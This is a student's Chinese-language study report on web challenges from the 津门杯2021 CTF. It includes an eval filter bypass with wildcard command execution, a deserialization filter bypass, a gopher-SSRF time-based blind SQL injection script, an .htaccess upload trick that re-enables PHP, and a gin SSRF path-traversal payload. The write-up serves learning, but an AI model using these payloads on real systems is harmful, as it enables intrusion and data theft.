



# Nepnep学习报告 web第六周

- 津门杯复现

## [津门杯2021]hate_php 

源码

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
```

本地测的和实际环境相差真的很大, 还有的是比赛的时候没想到通配符,看到这个正则自然而然认为异或绕过

```
("%10%08%10%09%0e%06%0f"^"%60%60%60%60%60%60%60")("%00%10"^"%2d%21");
```

本地测的这个没问题但是比赛环境最后只支持这个payload

```
?><?=`/???/???%20/*`;?>
```

需要闭合前面的然后单独执行后面的语句, 根目录里找到flag


## [津门杯2021]power_cut 

停电了 > /.index.php.swp

然后发现waf是替换为空,双写绕过

```php
class weblog {
    public $weblogfile = "/flag";
}
$a = new weblog();
echo str_replace('flag','flflagag',serialize($a));
```

log GET传参得到flag



## [津门杯2021]easysql

源码

```php
<?php
highlight_file(__FILE__);
    session_start();
    $url = $_GET['url'] ?? false;
    if($url)
    {
    $a = preg_match("/file|dict/i", $url);
        if ($a==1)
        {
            exit();
        }

            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_exec($ch);
            curl_close($ch);
     }

?> 
```

通过SSRF访问内网的 admin.php 进行 sql注入, 打内网用 **time.time()** 比 **timeout** 好, 脚本如下

```python
# -*-coding:utf-8-*-
from urllib.parse import quote
from requests import *
import time

url = 'http://121.36.147.29:20001/?url='

test =\
"""POST /admin.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Host: 127.0.0.1
Content-Length: {}
Connection: close

{}
"""
sess = session()

def gopher(payload):
    global test
    exp = test.format(len(payload), payload)
    tmp = quote(exp)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    res = 'gopher://127.0.0.1:80/'+quote(result)
    # print(res+'\n')
    return res

flag = ''
for i in range(1, 1000):
    low = 32
    high = 127
    while low < high:
        mid = (low + high) >> 1
        # payload = f"poc=if((select ascii(substr(database(),{i},1)))>{mid},sleep(0.2),1)"
        payload = f'poc=if((select ascii(substr((select flag from flag),{i},1)))>{mid},sleep(0.2),1)'
        before_time = time.time()
        print(payload)
        tmp_r = gopher(payload)
        tmp_url = url+tmp_r
        # print(tmp_url)
        r = sess.get(url=tmp_url)
        after_time = time.time()
        offset = after_time - before_time
        if (offset > 2):
            low = mid + 1
        else:
            high = mid

    if low != 32:
        flag += chr(low)
        print(flag)
    else:
        break
# flag{VqvjbS1O8A1gVWa2aPF44ruiELruVDP1}
```

结果



## [津门杯2021]Uploadhub

给了源码, 发现 if 判断这一块写错了...没用上 `$allow_type` 导致可以任意文件上传

```php
if ($_FILES["file"]["error"] > 0 && !in_array($fileext,$type) && $_FILES["file"]["size"] > 204800){
            die('upload error');
```

看到 apache.conf 里面注释了 upload 下的文件不支持php解析

```
<Directory ~ "/var/www/html/upload/[a-f0-9]{32}/">
        php_flag engine off
</Directory>
```

一开始打算是目录穿梭绕过但是本地测试发现 `$filename` 验证那里会直接把 `../` 过滤掉, 考了一个配置的知识点

> 配置文件的`<directory>` 晚于`.htaccess`执行 

然后上传 `.htaccess` 解析 php 文件

```
<Files "*.php">
php_flag engine on
</Files>
```

然后找到 flag 的位置用 file_get_contents 读取

```
var_dump(file_get_contents('/flag'));
```

结果



## [津门杯2021]GoOSS

本地80端口可以任意文件读取

```php
<?php
// php in localhost port 80
readfile($_GET['file']);
?>
```

审计 main.go 发现有个 302 跳转

```go
if fi.IsDir() {
	if !strings.HasSuffix(c.Request.URL.String(), "/") {
		c.Redirect(302,c.Request.URL.String()+"/")
```

需要满足 IsDIr(), 本地调试发现末尾多加了 `/..` 的时候会被判定为目录触发302

> `gin-gonic/gin`特性: 双`//`即可触发SSRF 

payload

```
{"url": "http://127.0.0.1:1234//localhost?file=../../../../../flag&dir=../.."}
```

结果


## 总结

- 备份文件泄露
- gopher协议ssrf攻击内网
- apache文件与.htaccess解析优先级区分
- go语言的目录判断和gin特性

